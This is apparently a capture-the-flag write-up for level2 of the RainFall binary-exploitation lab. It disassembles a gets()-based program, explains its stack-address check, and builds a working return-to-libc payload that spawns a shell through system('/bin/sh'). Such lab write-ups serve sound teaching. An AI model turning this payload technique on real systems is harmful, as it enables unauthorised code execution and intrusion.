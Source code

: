 ## Basic examination
There is a single executable **level2**. We run it:
~~~bash
./level2
42 let me pass
42 let me pass
~~~
As we can see,it waits for a stdin input and than prints it. Let's examine the function.

## Assembly dump analysis
As usual, we run **gdb** for a assembly dump for main:
~~~assembly
    0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>  <-- calls function p() and returns 0
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
~~~
As we can see, it just call one function and returns, so the printing must happen in **p()** function. Let's analyze:
~~~assembly
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <-- vulnerable gets() again, like in previous level
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
~~~
We can see there is a buffer overflow vulnerable function **gets()** again, but this time there is no system call thant will let us further. So we must think about the way how to force the execution of what we need. We can use **Ghidra** that will help us understand a little more about p() function with its decompile abilities.
~~~C
void p(void)
{
  void *unaff_retaddr;   //uninitiated void pointer, from the name we can assume it is for storing return address. 
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if (((uint)unaff_retaddr & 0xb0000000) == 0xb0000000) {             //casted as unsigned int (4 bytes), comparing the return address with bitwise AND with 0xb0000000
    printf("(%p)\n",unaff_retaddr);                                   //if true, prints it and exits with 1.
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
~~~
We can already see that the program is **allocating 80 bytes, 76 for the string and 4 bytes for uint variable (4 bytes on 32 bit systems)**. From what we already know about **stack frame** for program execution, this will be our potential offset for force execution of what we might need on the place of the return memory address. **BUT!** this code is little wittier, as the return address comparation here is effectivelly blocking the classical buffer overflow. Why? Read the stuff [HERE](https://unix.stackexchange.com/questions/509607/how-a-64-bit-process-virtual-address-space-is-divided-in-linux). As we can see, 0xbf****** address ranges are historically associated with user memory on 32 bit x86 systems - the stack, in other words. So, the code above is blocking the execution of the return memory addresses located on the stack, exiting the flow when it finds such. Fortunatelly, there is also a **heap**...

## Return to libc
We will use the [**return to libc**](https://en.wikipedia.org/wiki/Return-to-libc_attack) type of attack that is not utiliying the stack but rather works with stuff already in process memory. We construct the attack using this flow
~~~
overflow on offset -> p() return address -> mem address of system() -> exit() -> mem address of "/bin/sh"
~~~
**exit()** is called in the payload to ensure the proper flow of the program - if we don't control this, program might cras or behaves unexpectally. By calling exit function, we gracefully end it so our call to the **system("/bin/sh") runs smoothly. No, in the payload, the exist is placed before the "/bin/sh". That does not mean it will be called before it. The way the stack frame is constructed, **system("/bin/sh") is called first and then the **exit()**.  
Return address of **p()** is **0x0804853e**.
Using gdb's brakepoint, we will find the rest of what we need:
~~~bash
(gdb) b p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
~~~
Now we use this to construct the attack:
~~~bash
level2@RainFall:~$  python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
~~~


